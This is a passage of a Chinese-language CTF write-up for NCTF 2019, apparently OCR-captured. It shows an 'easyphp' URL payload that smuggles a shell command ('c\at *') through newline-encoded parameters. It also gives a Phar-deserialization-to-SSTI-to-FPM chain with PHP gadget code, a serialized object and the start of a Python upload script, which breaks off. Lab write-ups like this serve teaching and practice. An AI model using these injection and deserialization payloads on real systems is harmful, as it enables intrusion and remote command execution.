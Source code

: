 ```python
            break
        
        
```
### easyphp
套娃题，没啥说的
>`http://nctf2019.x1ct34m.com:60005/?num=23333%0a&str1=2120624&str2=240610708&q%20w%20q=c\at%20*`
### phar matches everything(推荐好好研究一下)
1. 根据vim交换文件得到文件源码
2. 第二步根据[Phar](https://paper.seebug.org/680/)构造反序列化
3. 使用curl得到SSTI
4. 最后内网扫描得到一个hint => fpm
5. 然后通过gopher协议得到

Phar+SSTI+FPM
```php
<?php

class Easytest{
    protected $test;
    public function __construct(){
        $this->test = '1';
    }
    public function funny_get(){
        return $this->test;
    }
}
class Main {
    public $url;
    public function curl($url){
        $ch = curl_init();  
        curl_setopt($ch,CURLOPT_URL,$url);
        curl_setopt($ch,CURLOPT_RETURNTRANSFER,true);
        $output=curl_exec($ch);
        curl_close($ch);
        return $output;
    }

	public function __destruct(){
        $this_is_a_easy_test=unserialize($_GET['careful']);
        if($this_is_a_easy_test->funny_get() === '1'){
            echo $this->curl($this->url);
        }
    }    
}

$a = new Easytest();
echo urlencode(serialize($a));
//O%3A8%3A%22Easytest%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00test%22%3Bs%3A1%3A%221%22%3B%7D
$m = new Main();

$url = $argv[1];
$m->url = "";


```
```python
#!coding=utf8
import requests
import re
file = open('phar.phar')

url1 = "http://nctf2019.x1ct34m.com:40004/upload.php"
```